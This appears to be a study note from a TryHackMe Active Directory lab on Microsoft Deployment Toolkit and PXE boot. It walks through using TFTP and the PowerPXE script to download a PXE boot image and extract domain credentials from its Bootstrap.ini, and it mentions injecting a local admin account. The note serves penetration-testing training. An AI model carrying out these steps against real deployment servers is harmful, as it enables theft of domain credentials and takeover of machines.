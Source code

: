 `Microsoft Deployment Toolkit (MDT)` is a Microsoft service that assists with *automating the deployment of Microsoft Operating Systems (OS)*. Large organisations use services such as MDT to help deploy new images in their estate more efficiently since the base images can be maintained and updated in a central location.

Usually, MDT is integrated with `Microsoft's System Center Configuration Manager (SCCM)`, which manages all updates for all Microsoft applications, services, and operating systems. MDT is used for new deployments. Essentially it allows the IT team to preconfigure and manage boot images. Hence, if they need to configure a new machine, they just need to plug in a network cable, and everything happens automatically. They can make various changes to the boot image, such as already installing default software like Office365 and the organisation's anti-virus of choice. It can also ensure that the new build is updated the first time the installation runs.


## PXE Boot  
Large organisations use PXE boot to *allow new devices that are connected to the network to load and install the OS directly over a network connection*. MDT can be used to create, manage, and host PXE boot images. PXE boot is usually integrated with DHCP, which means that if DHCP assigns an IP lease, the host is allowed to request the PXE boot image and start the network OS installation process. The communication flow is shown in the diagram below:
![[Pasted image 20230705234739.png]]

Once the process is performed, the client will use a TFTP connection to download the PXE boot image. We can exploit the PXE boot image for two different purposes:
-   Inject a privilege escalation vector, such as a Local Administrator account, to gain Administrative access to the OS once the PXE boot has been completed.
-   Perform password scraping attacks to recover AD credentials used during the install.


### PXE Boot Image Retrieval
The first piece of information regarding the PXE Boot preconfigure you would have received via DHCP is the `IP` of the MDT server.
The second piece of information you would have received was the **names of the BCD files**. These files store the information relevant to PXE Boots for the different types of architecture.
![[Pasted image 20230705235001.png]]
Usually, you would use `TFTP` to request each of these BCD files and enumerate the configuration for all of them. However, in the interest of time, we will focus on the BCD file of the **x64** architecture.

```powershell
C:\Users\THM>cd Documents 
C:\Users\THM\Documents> mkdir <username> 
C:\Users\THM\Documents> copy C:\powerpxe <username>\ 
C:\Users\THM\Documents\> cd <username>
```

The first step we need to perform is using `TFTP` and downloading our BCD file to read the configuration of the MDT server. TFTP is a bit trickier than FTP since we <mark style="background: #FF5582A6;">can't list files</mark>. Instead, we send a file request, and the server will connect back to us via `UDP` to transfer the file. Hence, we need to be accurate when specifying files and file paths. The BCD files are always located in the `/Tmp/` directory on the MDT server.

```powershell
C:\Users\THM\Documents\Am0> tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd 
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s
```

**Powerpxe** is a PowerShell script that automatically performs this type of attack but usually with varying results, so it is better to perform a manual approach. We will use the `Get-WimFile` function of powerpxe to recover the locations of the PXE Boot images from the BCD file:
```powershell
C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass 
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved. 
PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1 
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile 
>> Parse the BCD file: conf.bcd 
>>>> Identify wim file : <PXE Boot Image Location> 
<PXE Boot Image Location>
```

WIM files are bootable images in the `Windows Imaging Format (WIM)`. Now that we have the location of the PXE Boot image, we can again use TFTP to download this image:
```powershell
PS C:\Users\THM\Documents\am0> tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim 
Transfer successful: 341899611 bytes in 218 second(s), 1568346 bytes/s
```

### Recovering Credentials from a PXE Boot Image
```powershell
PS C:\Users\THM\Documents\am0> Get-FindCredentials -WimFile pxeboot.wim 
>> Open pxeboot.wim 
>>>> Finding Bootstrap.ini 
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$ 
>>>> >>>> UserID = <account>
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = <password>
```
